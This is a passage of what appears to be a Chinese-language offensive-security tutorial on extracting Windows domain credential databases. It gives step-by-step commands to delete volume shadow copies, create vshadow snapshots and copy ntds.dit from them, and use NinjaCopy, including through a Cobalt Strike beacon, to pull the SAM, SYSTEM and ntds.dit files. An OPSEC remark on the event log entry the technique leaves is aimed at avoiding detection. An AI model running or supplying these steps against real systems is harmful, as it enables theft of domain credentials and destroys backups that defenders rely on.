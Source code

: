 ```plaintext
vssadmin delete shadows /for=C: /quite
```

或填入 Shadow Copy ID 删除

```plaintext
vssadmin delete shadows /shadow=<XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX> /quite
```

###### VShadow 获取数据库

需要通过 Windows Software Development Kit (SDK) 中提取出来，上传到目标机器执行。

1.查询当前快照

```plaintext
vshadow.exe -q
```

2.管理员权限创建快照

\-p Persistent 备份操作，-nw no writers 提高创建速度，C: 是要备份的盘符。

```plaintext
vshadow.exe -p -nw C:
```

备份完获取 SnapshotSetID、SNAPSHOT ID、Shadow copy device name。

3.获取数据库文件

```plaintext
copy <Shadow copy device name>\Windows\NTDS\ntds.dit C:\ntds.dit
```

4.删除快照

```plaintext
vshadow -dx=<SnapshotSetID>
vshadow -ds=<SNAPSHOT ID>
```

*OPSEC：vshadow 执行后 System 类别产生 Event ID 7036 日志。*

###### NinjaCopy 获取数据库

下载 [NinjaCopy](https://github.com/3gstudent/NinjaCopy) 上传到目标系统用法。

```plaintext
// 导入模块
Import-Module .\invoke-NinjaCopy.ps1

// 将 -Path 指定的文件导出到指定目录下。
Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination C:\SAM.hive
Invoke-NinjaCopy -Path C:\Windows\System32\config\SYSTEM -LocalDestination C\SYSTEM.hive
Invoke-NinjaCopy -Path C:\Windows\NTDS\ntds.dit -LocalDestination "C:\ntds.dit"
```

Cobalt Strike Beacon powershell-import 和 powershell 可以简化上传步骤。

```plaintext
// 将本机 C:\Invoke-NinjaCpy.ps1 导入到目标环境。
beacon> powershell-import C:\Invoke-NinjaCpy.ps1
beacon> Invoke-NinjaCopy -Path C:\Windows\NTDS\ntds.dit -LocalDestination "C:\ntds.dit"
```
